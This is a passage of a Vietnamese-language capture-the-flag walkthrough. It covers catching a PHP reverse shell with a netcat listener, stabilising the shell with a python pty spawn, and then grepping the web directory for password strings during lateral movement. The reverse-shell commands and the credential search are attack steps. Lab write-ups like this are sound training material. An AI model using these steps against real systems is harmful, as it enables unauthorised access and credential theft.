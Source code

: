 Nhưng trước tiên, cần thiết lập kết nối netcat:

```
nc -lvnp 1234
```

Sau đó yêu cầu shell thông qua trình duyệt:

```
http://{TARGET_IP}/uploads/php-reverse-shell.php
```

và kiểm tra trình nghe.

```
Lưu ý: Trong trường hợp shell không có ở đó thì có thể nó đã bị xóa nên cần tải nó lên lại
```

![alt text](image-19.png)

Có một reverse shell! Tuy nhiên, để có một shell chức năng, có thể phát hành lệnh sau:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

## Lateral Movement

Với tư cách là người dùng `www-data`, không thể đạt được nhiều thứ vì vai trò này đã hạn chế quyền truy cập vào hệ thống. Vì trang web đang sử dụng PHP và SQL nên có thể liệt kê thêm thư mục web để tìm các tiết lộ tiềm ẩn hoặc cấu hình sai. Sau một số tìm kiếm, có thể tìm thấy một số tệp php thú vị trong thư mục `/var/www/html/cdn-cgi/login`. Có thể xem xét thủ công mã nguồn của tất cả các trang hoặc có thể thử tìm kiếm các chuỗi thú vị bằng cách sử dụng công cụ `grep`. `grep` là một công cụ tìm kiếm PATTERN trong mỗi FILE và in ra các dòng khớp với các pattern. Có thể sử dụng `cat *` để đọc tất cả các file trong khi chuyển đầu ra đến grep, tại đó cung cấp pattern của một chuỗi bắt đầu bằng từ `passw` và theo sau là bất kỳ chuỗi nào như ví dụ từ passwd hoặc password. Cũng có thể sử dụng lệnh chuyển đổi `-i` để bỏ qua các từ phân biệt chữ hoa chữ thường như Password.
